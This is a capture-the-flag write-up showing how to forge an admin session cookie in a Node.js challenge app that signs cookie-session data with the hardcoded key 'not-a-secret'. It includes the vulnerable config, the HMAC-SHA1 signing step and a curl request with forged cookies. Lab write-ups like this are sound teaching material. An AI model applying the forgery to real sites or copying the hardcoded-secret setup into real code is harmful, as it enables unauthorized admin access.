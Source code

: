 # CTF WriteUp: theme-generator Challenge

## Challenge Overview

- **Name**: theme-generator
- **Points**: 100
- **Category**: Web Security
- **Target**: `http://[CTF-SERVER]:[PORT]` (anonymized)

## Initial Reconnaissance

First, let's explore the application structure:

```bash
curl -s http://[CTF-SERVER]:[PORT]
```

The application appears to be a Node.js web application with user authentication functionality.

## Key Findings

### 1. Application Structure Analysis

After examining the application, several key components were identified:

- **Authentication System**: Uses session-based authentication
- **Cookie Management**: Implements `cookie-session` middleware
- **Admin Panel**: Protected route at `/admin/flag`
- **Database**: Contains user information including admin credentials

### 2. Session Management Vulnerability

The critical vulnerability lies in the session management implementation:

#### Cookie-Session Configuration

The application uses `cookie-session` with a **hardcoded secret key**:

```javascript
// Vulnerable configuration
app.use(
  cookieSession({
    name: "sess",
    keys: ["not-a-secret"], // ⚠️ Hardcoded secret
    maxAge: 24 * 60 * 60 * 1000,
  })
);
```

#### Authentication Middleware

```javascript
const authMiddleware = (req, res, next) => {
  if (req.session.username) {
    // Retrieves user from database based on session username
    const user = getUserFromDB(req.session.username);
    req.user = user;
  }
  next();
};
```

#### Admin Check

```javascript
const requireAdmin = (req, res, next) => {
  if (req.user && req.user.isAdmin) {
    next();
  } else {
    res.status(403).send("admins only");
  }
};
```

## Vulnerability Analysis

### Cookie Forgery Attack

The vulnerability allows us to forge a valid admin session cookie because:

1. **Known Secret Key**: The HMAC signing key is hardcoded as `"not-a-secret"`
2. **Predictable Structure**: Session data is JSON: `{"username":"admin"}`
3. **Admin User Exists**: Database contains an admin user with `isAdmin: true`

### Technical Details

The cookie structure uses two components:

- `sess`: Base64-encoded JSON session data
- `sess.sig`: HMAC-SHA1 signature in base64url format

## Exploitation Process

### Step 1: Craft the Session Data

Create the admin session JSON:

```json
{ "username": "admin" }
```

Base64 encode this data:

```bash
echo -n '{"username":"admin"}' | base64
# Result: [BASE64_ENCODED_VALUE]
```

### Step 2: Generate Valid Signature

The signature is computed as:

```
HMAC-SHA1(key="not-a-secret", message="sess=[BASE64_SESSION_DATA]")
```

This produces the base64url-encoded signature: `[CALCULATED_SIGNATURE]`

### Step 3: Execute the Attack

Use the forged cookies to access the admin flag:

```bash
curl -s -i \
  -H 'Cookie: sess=[BASE64_SESSION_DATA]; sess.sig=[HMAC_SIGNATURE]' \
  http://[CTF-SERVER]:[PORT]/admin/flag
```

## Attack Flow Diagram

```
1. Client Request with Forged Cookies
   ↓
2. cookie-session verifies signature with known secret
   ↓
3. authMiddleware reads session.username = "admin"
   ↓
4. Database lookup returns admin user with isAdmin: true
   ↓
5. requireAdmin middleware allows access
   ↓
6. Flag endpoint returns the flag
```

